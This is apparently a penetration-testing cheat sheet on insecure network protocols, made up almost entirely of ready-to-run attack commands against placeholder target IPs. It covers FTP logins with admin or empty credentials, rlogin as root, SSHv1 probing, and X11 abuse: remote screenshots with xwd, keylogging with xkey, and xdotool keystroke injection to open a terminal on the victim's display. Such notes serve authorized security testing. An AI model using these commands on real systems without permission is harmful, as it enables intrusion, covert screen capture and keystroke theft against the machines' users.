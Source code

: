 # Insecure Protocols


### FTP access with admin/null credentials



```
ftp admin@<target IP>
user
admin
pwd
```





```
telnet <target IP> 21
user admin
pass
id;

```


### FTP on non-standard port



```
ftp <target IP> <port>

```



### FTP server does not support AUTH command



```
telnet <target IP> 21
AUTH test

```



### Rservices



```
513/tcp
apt-get install rsh-client
rlogin -l root <target IP>
```




### SSH Protocol v1


```

nmap -Pn -n -T4 -p22 --script=sshv1 <target IP>

ssh -1 <target IP>
```



### X11



```
nmap -Pn -n -T4 -p6000-6010 --script=x11-access <target IP>

```




```
xspy <target IP>

```




```
OS X
     Screenshot:
     xwd -display <targetIP>:<display> -root -out file.xwd

     View screenshot:
     xwud -in file.xwd

     Key logging:
     xkey <targetIP>:0.0

     xdotool inject:
     Open another Terminal and type:

     export DISPLAY=<ipaddress>:0

     $ xdotool key x t e r m
     $ xdotool key KP_Enter

     Might need to inject 1 char at a time:

     xdotool key x
     xdotool key t
     xdotool key e
     xdotool key r
xdotool key m
```

# 

